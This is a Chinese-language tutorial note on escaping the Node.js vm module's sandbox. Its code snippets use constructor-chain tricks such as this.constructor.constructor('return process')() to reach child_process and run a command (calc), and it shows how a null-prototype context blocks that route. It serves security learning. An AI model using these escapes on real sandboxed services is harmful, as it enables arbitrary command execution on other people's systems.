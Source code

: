     

##关于vm

>   防止变量的污染，VM的特点就是不受环境的影响，也可以说他就是一个沙箱环境 （沙箱模式给模块提供一个环境运行而不影响其它模块和它们私有的沙箱

### 使用方法

```js
const vm = require('vm');

sx = {
    'name': 'chiling',
    'age': 18
}

// 创建一个沙箱对象
context = vm.createContext(sx)

// vm.runInThisContext(code)：在当前global下创建一个作用域（sandbox），并将接收到的参数当作代码运行。可以访问到global上的全局变量，但是访问不到自定义的变量
const result = vm.runInThisContext(`process.mainModule.require('child_process').exec('calc')`, context);
console.log(result)
```

>   一般正常执行命令的话是通过`child_process模块`，但是在沙箱环境中不能直接通过`require`引入`child_process`，但是`require`可以通过`process`对象中获取，那么一般获取的方法如下

```js
const vm = require('vm');
const y1 = vm.runInNewContext(`this.toString.constructor("return process")();`);
console.log(y1.mainModule.require('child_process').exec('calc'));

```

**如果在runInNewContext想要通过逃逸的话可以通过**`this.constructor.constructor("return process")()`，如上

>   具体的原因就是在`this`这个位置上，`this`指向`context`（上面的代码中就是默认`vm`创建的`context`）
>
>   并通过原型链的方式拿到`Funtion`

>   但是上面的`this`实际上是`context`的引用，那么其实也说明了只要是外部的引用的特性都是可以进行获取来进行逃逸的，那么如下代码也是行得通

```js
const vm = require('vm');
context = vm.createContext({aaaaa:[]})
const result = vm.runInNewContext(`aaaaa.constructor.constructor("return process")()`, context);
result.mainModule.require('child_process').exec('calc')
// console.log(result)

```



**再看另一种情况，当通过相关的操作将上下文的对象的原型链设置为`null`，来避免部分攻击，那么通过`this.constructor`就无法完成沙盒逃逸**

```js
const vm = require('vm');
context = Object.create(null);
const result = vm.runInNewContext(`this.constructor.constructor("return process")()`, context);
result.mainModule.require('child_process').exec('calc')
console.log(result)

// 结果会报错
// 为什么呢？
// 因为设置为原型对象为null，所以this无法通过二次constructor去获取到Function原型对象
```
